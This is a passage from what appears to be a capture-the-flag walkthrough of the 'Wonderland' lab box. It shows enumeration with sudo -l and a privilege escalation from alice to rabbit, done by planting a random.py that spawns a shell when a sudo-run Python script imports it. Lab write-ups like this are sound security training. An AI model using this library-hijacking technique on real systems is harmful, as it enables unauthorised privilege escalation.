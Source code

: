 There are three other folders in `/home`, but alice is unable to access them:

```
alice@wonderland:/home$ ls
alice  hatter  rabbit  tryhackme
alice@wonderland:/home$ cd hatter
-bash: cd: hatter: Permission denied
alice@wonderland:/home$ cd rabbit
-bash: cd: rabbit: Permission denied
alice@wonderland:/home$ cd tryhackme/
-bash: cd: tryhackme/: Permission denied
```

And running `sudo -l` for alice shows we can run the Python script with `sudo` as the hatter user:

```
alice@wonderland:/home$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
We can run the script, and confirm it's just randomly printing 10 lines:

```
alice@wonderland:/home$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
The line was:	 Such quantities of sand:
The line was:	 You could not see a cloud, because
The line was:	 "You’ve had a pleasant run!
The line was:	 Shining with all his might:
The line was:	 The eldest Oyster looked at him.
The line was:	 "Do you admire the view?
The line was:	 
The line was:	 After the day was done —
The line was:	 After the day was done —
The line was:	 Had got no business to be there
```

The file is owned by root, rabbit can execute it with `sudo` , we can run it in our context, but we can't edit it:

```
alice@wonderland:~$ ls -la walrus_and_the_carpenter.py 
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
```

What we can do however is hijack the random function the script imports.

Lets create our own file called random.py, and then run the script with `sudo` for rabbit:

```
alice@wonderland:~$ cat >> random.py
import os
os.system("/bin/bash")
^C
alice@wonderland:~$ whoami
alice
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ whoami
rabbit
```
Looking in rabbit's home directory we find a SUID binary:
